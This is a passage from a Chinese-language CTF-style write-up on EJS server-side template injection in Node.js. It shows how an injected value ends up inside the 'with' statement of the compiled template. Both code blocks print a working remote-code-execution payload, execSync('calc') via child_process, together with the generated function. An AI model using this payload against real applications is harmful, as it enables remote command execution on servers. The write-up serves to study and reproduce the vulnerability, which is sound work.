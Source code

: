 此时 prepended 将我们的恶意代码作为键值对插入到了 with 当中：

```bash
var __output = "";
function __append(s) { if (s !== undefined && s !== null) __output += s }
with (x=global.process.mainModule.require('child_process').execSync('calc') || {}) {
```

在调用到 fn 的时候我们就可以发现我们注入的键值对被当作参数来进行使用，也为后续 src 中出现我们参数的时候能够执行代码打下了基础。

[![](assets/1707954592-686641d02890077b871df5f86bd55c3e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202200045-b2418134-c1c2-1.png)

整个 src 的值最后通过 with 执行`x=global.process.mainModule.require('child_process').execSync('calc')`的时候调用 function 函数传入的`x=global.process.mainModule.require('child_process').execSync('calc')`，将 x=的部分执行以后返回结果赋值给 x，这时候我们就能够进行 RCE 的操作了。

```bash
var __line = 1
  , __lines = "<!DOCTYPE html>\r\n<html>\r\n<head>\r\n    <meta charset=\"utf-8\">\r\n    <title></title>\r\n</head>\r\n<body>\r\n\r\n<h1><%= message%></h1>\r\n\r\n</body>\r\n</html>"
  , __filename = "D:\\webnode\\CTF 复现\\111\\index.ejs";
try {
  var __output = "";
  function __append(s) { if (s !== undefined && s !== null) __output += s }
  with (x=global.process.mainModule.require('child_process').execSync('calc') || {}) {
    ; __append("<!DOCTYPE html>\r\n<html>\r\n<head>\r\n    <meta charset=\"utf-8\">\r\n    <title></title>\r\n</head>\r\n<body>\r\n\r\n<h1>")
    ; __line = 9
    ; __append(escapeFn( message))
    ; __append("</h1>\r\n\r\n</body>\r\n</html>")
    ; __line = 12
  }
  return __output;
} catch (e) {
  rethrow(e, __lines, __filename, __line, escapeFn);
}

//# sourceURL=D:\webnode\CTF 复现\111\index.ejs
```
